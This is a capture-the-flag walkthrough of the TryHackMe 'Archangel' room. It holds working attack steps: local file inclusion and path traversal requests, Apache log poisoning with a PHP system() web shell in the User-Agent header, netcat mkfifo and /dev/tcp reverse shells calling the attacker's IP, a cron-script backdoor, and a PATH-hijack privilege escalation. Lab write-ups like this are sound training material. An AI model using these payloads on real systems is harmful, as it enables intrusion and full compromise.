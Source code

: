 # Archangel

**Room Link:** [https://tryhackme.com/room/archangel](https://tryhackme.com/room/archangel)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>



I added mafialive.thm to my host file and tried visiting the browser from there

**Kali**

```
subl /etc/hosts
```



<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>







**Kali**

```
curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

echo "CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3ll
ZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhl
cmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw/cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwg
JHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYo
IWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJ
aW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9i
b2R5PgoKPC9odG1sPgoKCg==" | base64 -d

```



<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//etc/passwd
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### Burpe Request

By changing the user agent I was able to start running commands&#x20;

Before

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log HTTP/1.1
Host: mafialive.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

After

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=whoami HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



### Reverse Shell

**Kali**

```
nc -lvnp 1337
```

**Command being sent**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $KALI 1337 >/tmp/f
```

**Burp request**

Only notable thing is to url encode the command being sent

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.125.248+1337+>/tmp/f+ HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>





### Shell - archangel

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
cat /etc/crontab
cat /opt/helloworld.sh
echo "sh -i >& /dev/tcp/10.10.125.248/1338 0>&1" >> /opt/helloworld.sh
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### Privilege Escalation

**Victim**

<pre><code><strong>file backup
</strong><strong>strings backup 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

We can see with strings that the program is running a cp command but it isn't using the full pathm we can use this.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat > cp << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
chmod +x cp
export PATH=/home/archangel/secret:$PATH
./backup 
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>



























